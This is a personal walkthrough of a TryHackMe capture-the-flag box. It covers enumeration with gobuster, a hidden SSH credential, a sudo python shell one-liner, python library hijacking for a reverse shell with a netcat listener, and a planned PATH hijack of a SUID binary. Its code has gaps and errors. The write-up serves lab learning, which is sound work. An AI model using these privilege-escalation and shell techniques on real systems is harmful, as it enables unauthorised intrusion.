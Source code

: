  This was a tryhackme CTF

 - I started with regular nmap enumaration and found http and ssh were running
 - Going to the website adn viewing source, I foud the img directory
 - Three images were in the directory, so I downloaded all three and ran steg checks with `https://futureboy.us/stegano/decinput.html`
 - The only one with info was the white rabbit picture, with resulted in this:
```
follow the r a b b i t
```
- I had previously run gobuster to enumerate subdirectories and found the directory `/r`
```shell
# command
gobuster dir -u <http://IP> -w /usr/share/dirb/wordlists/common.txt
```
- Following the rabbit logic, I nagivated to `/r/a/b/b/i/t` (there were quotes on each page)
- Viewing source on the `/t` page, I foud an interesting line
```html
<p style="display: none;">alice:HowDothTheLittleCrocodileImproveHisShiningTail</p>
```
- I tried logging in to ssh using the username `alice` and `HowDothTheLittleCrocodileImproveHisShiningTail` as the password (it worked!)
- Listing out files, I found a `root.txt` file and a python script
- I ran `nano` on the python script, which turnedout out to be a poem that just output random lines when run
- `sudo -l` showed that alice had root privileges for python on that specific file, so I decided ot exploit that
- I went to my fav place for priv escelation scripts, `gtfobins` and found one for python
- I modified it like this, but it can only be used with that specific file so I ended up stuck for a bit
```python
sudo python3 -c 'import os; os.system("/bin/sh")'
```
- I decided to work on finding `user.txt` which ended up being it the root directory (for whatever reason) so I got that with `cat /root/user.txt`
- Looking at the python script again, I noticed that it imported the random module to run. I had to do some reasearch, but it turns out this can be exploited
- If we create a python script called `random.py` this will be imported into the python script befor ehte actual random module, which means we can get a reverse shell
```python
# script
```
- then we sut up a listener on port 7777
```shell
nc -lvnp 7777
```
- and deploy
```shell
sudo -u rabbit /usr/bin/python3.6 /home/alice/nameofthepscriptimlazy
```
- Navigating into `/home/rabbit` there is a suid file called `teaParty`
- Running it outputs this:
```
Probably by Wed, 13 Dec 2023 02:10:07 +0000

Welcome to the tea party!
The Mad Hatter will be here soon.
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```
- I copied it over to my system `scp teaParty > isabelle@<attack machine IP>`
- Similar to the python script, it has a relative call, this time to `date`
- So we employ similar tactics


